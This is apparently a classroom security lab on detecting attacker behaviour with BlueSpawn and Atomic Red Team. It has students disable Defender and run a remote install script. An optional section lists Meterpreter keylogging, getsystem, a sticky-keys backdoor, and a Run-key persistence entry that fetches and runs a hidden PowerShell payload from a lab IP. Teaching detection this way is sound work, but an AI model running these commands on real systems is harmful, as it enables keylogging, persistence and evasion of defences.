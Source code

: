 

# Atomic Red Team And Bluespawn

In this lab we will be using Bluespawn as a stand-in for an EDR system.  Normally full EDRs like Cylance and Crowdstrike are very expensive and tend not to show up in classes like this.  However, the folks at University of Virginia have done an outstanding job with BlueSpawn. 

BlueSpawn will monitor the system for "weird" behavior and note it when it occurs. For the money, it is great.

In this lab, we will be starting BlueSpawn and then running Atomic Red Team to trigger a lot of alerts.

First, we need to disable Defender. 
Start by opening up <b>Windows Powershell</b>.

![](attachments/OpeningPowershell.png)

Next, run the following command:

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

![](attachments/disableDefender.png)

This will disable Defender for this session.

>[!NOTE]
>
>If you get angry red errors, that is Ok, it means Defender is not running.


Now, let's open a command prompt by clicking on the icon in the taskbar:

![](attachments/openingcommandprompt.png)

 
Next, let’s change directories to tools and start Bluespawn:

<pre>cd \IntroLabs</pre>

<pre>BLUESPAWN-client-x64.exe --monitor --level Cursory</pre>
 
![](attachments/cdandstartbluespawn.png)

You should see something like this:

![](attachments/bluspawnlaunched.png)

If you made it this far, perfect! That means Bluespawn is up and running.

Now, let’s use Atomic Red Team to test the monitoring with BlueSpawn:

First, we need to open a PowerShell terminal. 

You can do this by selecting the icon in the taskbar:

![](attachments/OpeningPowershell.png)

Now we need to install and update Atomic Red Team. Run the following:

<pre>cd \</pre>

<pre>IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing);
Install-AtomicRedTeam -getAtomics -Force</pre>

>[!NOTE]
>
> This can take a bit. Be patient!

Once you see the following, you are set to move forward:

![](attachments/installationconfirmation.png)

Next, in the PowerShell Window we need to navigate to the Atomic Red Team directory and import the powershell modules:

<pre>cd C:\AtomicRedTeam\invoke-atomicredteam\</pre>

Then, install the proper `yaml` modules by running the following:

<pre>Install-Module -Name powershell-yaml</pre>

>[!NOTE]
>
>When prompted, press Y to install the modules.

<pre>Import-Module .\Invoke-AtomicRedTeam.psm1</pre>


Once we do this, we need to invoke all the Atomic Tests.

>[!IMPORTANT]  
>
>Don't do this in production...  Ever.
>  
>Always run tools like Atomic Red Team on test systems.
>
>We recommend that you run in on a system with your EDR/Endpoint protection in non-blocking/alerting mode. This is so you can see what the protection would have done, but it will allow the tests to finish so we are just going to run individual tests for now.

Run the following individually:

<pre>Invoke-AtomicTest T1547.004</pre>

<pre>Invoke-AtomicTest T1543.003</pre>

<pre>Invoke-AtomicTest T1547.001</pre>

<pre>Invoke-AtomicTest T1546.008</pre>


>[!TIP]
>
>If you get any “file exists” questions or errors, just select `Yes`.

It should look like this:

![](attachments/invokeatomicv1.png)

>[!NOTE]
>
>There might be some errors when this runs. This is normal.

Please note we had to cross reference the old numbering witgh the new.

You can find that mapping here:

https://attack.mitre.org/docs/subtechniques/subtechniques-crosswalk.json


You should be getting a lot of alerts with Bluespawn Switch tabs in your Terminal to see them:

![](attachments/Clipboard_2020-06-16-09-47-26.png)


Now, let’s go back to the PowerShell prompt and clean up:

PS C:\AtomicRedTeam\invoke-atomicredteam> `Invoke-AtomicTest All -Cleanup`

It should look like this:

![](attachments/Clipboard_2020-06-23-13-36-10.png)

# If you have more time

Feel free to exploit system using the commands we went through in AppLocker or Sysmon and then run the following Meterpreter commands


Run commands

meterpreter > `keyscan_start`

meterpreter > `keyscan_dump`

![](attachments/Clipboard_2020-06-15-13-52-00.png)



meterpreter > `shell`

C:\> `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Payload /d "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://172.20.243.5:80/a'))\"" /f`

C:\>  `reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe"`

![](attachments/Clipboard_2020-06-15-14-00-53.png)



meterpreter >`getsystem`

![](attachments/Clipboard_2020-06-15-13-52-28.png)


![](attachments/Clipboard_2020-06-15-13-56-34.png)

[Return To Lab List](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/navigation.md)




